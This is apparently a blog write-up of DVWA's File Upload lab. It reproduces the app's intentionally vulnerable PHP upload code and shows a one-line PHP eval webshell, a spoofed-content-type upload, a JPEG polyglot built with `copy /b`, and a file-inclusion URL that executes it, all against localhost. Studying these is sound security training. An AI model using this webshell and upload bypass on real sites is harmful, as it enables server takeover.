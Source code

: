 ```yaml
---
layout: post
title: "DVWA File Upload"
description: ""
date: 2023-07-11
categories:
  - DVWA
  - DVWA_File_Upload
author: ""
tags: ['DVWA', 'File_Upload']
---
```




# DVWA File Upload

###### tags: `DVWA`



# Low


沒過濾

```php=

<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}

?>

```


直接上傳 PHP 一句話，成功。

他還給出了路徑:

```
../../hackable/uploads/hack.php succesfully uploaded!


http://localhost/vulnerabilities/upload/../../hackable/uploads/hack.php 

```
antsword 可以連一下一句話。




# Medium 


code:




```php=


<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?>



重點:
* 判斷了 content type:
```
```php=

if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) )

```


我們一樣用PHP 一句話
bp抓一下:

```http=

POST /vulnerabilities/upload/ HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=-----233962787037092799402744875259--



```

此時可以看到 hack2.jpg 可以看到content type 改了。

接下來改回php檔 filename="hack2.php"

效果一樣。



<br/><br/>




# High

code:

$uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
已逗點分開來獲取複檔名

並且接下來判端 是否是圖片的複檔名。

假如你一句話存 jpg檔 他還用 getimagesize 函數去讀取資料內容是否為圖片格式。

```php=
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?> 
```


所以這時候我們只能配合其他漏洞了。因為我們一定要上傳一個圖片檔。


先用小畫家 產生一個hack3.jpg
再把一句話 hack.php 綑綁在一起。
產生hack4.jpg

打開CMD:

```
copy hack3.jpg/b+ hack.php hack4.jpg
```

notepade 打開hack4.jpg 檢查一下有沒出現你的一句話
```
?php @eval($_POST[x]); ?>
```


有的話上傳。

此時訪問到hack4.jpg 也是沒用的，因為php認為把他當圖片解析。

搭配 file inclusion level:high漏洞，他會把內容自動解析成php檔。

```
http://localhost/vulnerabilities/fi/?page=file:///C:/Users/liar/Desktop/DVWA-master/hackable/uploads/hack4.jpg
```

蟻劍成功連上。





# Impossible:

他這裡寫太複雜，有空研究。但是很安全。








